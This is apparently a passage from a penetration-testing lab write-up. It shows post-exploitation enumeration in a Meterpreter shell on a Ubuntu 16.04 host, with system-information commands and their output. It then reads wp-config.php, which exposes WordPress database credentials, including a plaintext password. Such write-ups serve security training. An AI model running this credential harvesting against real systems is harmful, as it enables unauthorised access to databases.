 in meterpreter, can goto regular shell use `shell`

# Post-Exploitation Enumeration
gather some information such as network config, hostname, os version and kernel info
```
ifconfig
ens160    Link encap:Ethernet  HWaddr 00:50:56:bf:19:da  
          inet addr:10.4.4.10  Bcast:10.4.4.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:febf:19da/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:158345 errors:0 dropped:240 overruns:0 frame:0
          TX packets:169172 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:122457155 (122.4 MB)  TX bytes:68118761 (68.1 MB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:732 errors:0 dropped:0 overruns:0 frame:0
          TX packets:732 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:67520 (67.5 KB)  TX bytes:67520 (67.5 KB)

hostname
ajla

uname -a
Linux ajla 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux

cat /etc/issue
Ubuntu 16.04 LTS \n \l

cat /proc/version
Linux version 4.4.0-21-generic (buildd@lgw01-21) (gcc version 5.3.1 20160413 (Ubuntu 5.3.1-14ubuntu2) ) #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016
``` 

find database credentials in the configuration file: `wp-config.php`
```
pwd
/var/www/html

cat wp-config.php
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wp' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Lv9EVQq86cfi8ioWsqFUQyU' );

/** MySQL hostname */
define( 'DB_HOST', '10.5.5.11' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

```
